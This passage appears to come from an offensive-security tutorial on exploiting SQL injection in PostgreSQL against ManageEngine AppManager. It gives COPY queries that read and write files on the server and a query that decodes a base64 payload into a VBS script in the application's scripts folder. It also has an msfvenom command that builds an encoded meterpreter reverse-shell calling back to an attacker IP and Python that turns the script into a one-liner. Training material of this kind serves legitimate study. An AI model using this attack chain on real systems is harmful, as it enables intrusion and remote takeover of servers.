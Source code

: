 In the above example query, not only are we checking to see if we have query execution, we're also
checking to see if the current user we're executing queries as has `superuser` privileges.

## File system interactions

Attackers want to immediately interact with a target's file system - that's where all the important
stuff is! With the right permissions, reading and writing to disk in PostgreSQL is pretty straight
forward. Here's a query to read content from disk into a table:

```sql
COPY <table_name> from <file_name>
```

And here's a query to write content to disk from a table:

```sql
COPY <table_name> to <file_name>
```

And here's a query to write a string constant to disk:

```sql
COPY (select $$awae$$) to <file_name>
```

Let's get even crazier. Instead of just writing tiny strings to disk, we'll write whole payloads. We
accomplish this by `base64` encoding our payloads and decoding them using PostgreSQL before writing
to disk. Here's an example:

```sql
copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

In this example, we've already encoded our payload with `base64`. We send this query to the target,
and at runtime PostgreSQL decodes the payload from `base64`, and then converts the bytes to a string
using `utf-8` encoding, and then finally writes the VBS script to a disk.

We can quickly generate reverse shell VBS scripts using `msfvenom` as such:

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```

One minor inconvenience with `msfvenom`, it doesn't create one-liner VBS scripts. To get around
this, we can convert the VBS script to a one-liner with the following Python:

```python
def convert_to_oneliner(self, vbscript) -> str:
    return (
        open(vbscript, "rt")
        .read()
        .replace("\r", "")
        .replace("\n", ":")
        .replace("\t", " ")
        .replace("& _ :", "& ")
        .replace("& _:", "& ")
        .encode("utf-8")
    )
```
